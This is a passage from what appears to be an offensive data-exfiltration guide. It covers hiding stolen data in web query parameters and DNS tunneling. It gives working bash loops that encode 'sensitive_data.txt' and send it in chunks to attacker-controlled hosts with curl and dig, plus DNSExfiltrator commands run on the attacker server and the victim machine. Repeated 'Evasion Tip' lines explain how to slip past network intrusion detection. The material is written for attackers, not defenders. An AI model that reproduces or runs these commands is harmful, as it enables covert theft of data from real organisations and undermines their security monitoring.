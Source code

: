   - **Evasion Tip**: Many NIDS don't deeply inspect cookie values. Split large data into multiple requests to avoid triggering size-based alerts.

- **Steganography in Web Requests**: Hide data within legitimate-looking web parameters.
  - **Example (Query Parameter Hiding)**:
    ```bash
    # Encode data
    DATA=$(cat sensitive_data.txt | base64 | tr '+/' '-_')
    # Split into chunks and send as search queries
    for ((i=0; i<${#DATA}; i+=20)); do
      CHUNK="${DATA:$i:20}"
      curl -s "https://your-server.com/search?q=$CHUNK&page=1"
      sleep 3
    done
    ```
  - **Evasion Tip**: Make requests appear as normal web browsing. Vary parameters and endpoints to avoid pattern detection.

## 3. DNS Tunneling

DNS traffic is often less scrutinized and can bypass many network restrictions.

- **Basic DNS Exfiltration**: Encode data in DNS queries to an attacker-controlled DNS server.
  - **Tools**: `iodine`, `dnscat2`, `DNSExfiltrator`
  - **Example (Manual DNS Exfiltration)**:
    ```bash
    # Encode file in hex
    HEX=$(xxd -p sensitive_data.txt | tr -d '\n')
    # Split into chunks (max 63 chars per DNS label)
    for ((i=0; i<${#HEX}; i+=30)); do
      CHUNK="${HEX:$i:30}"
      dig $CHUNK.exfil.yourdomain.com
      sleep 2
    done
    ```
  - **Example (Using DNSExfiltrator)**:
    ```bash
    # On attacker server (set up first)
    python DNSExfiltrator.py -d yourdomain.com -p password
    
    # On victim machine
    python DNSExfiltrator.py -f sensitive_data.txt -d yourdomain.com -p password
    ```
  - **Evasion Tip**: Keep DNS queries at a low rate (1-2 per second). Use subdomains that look legitimate. Avoid excessively long domain names that might trigger alerts.
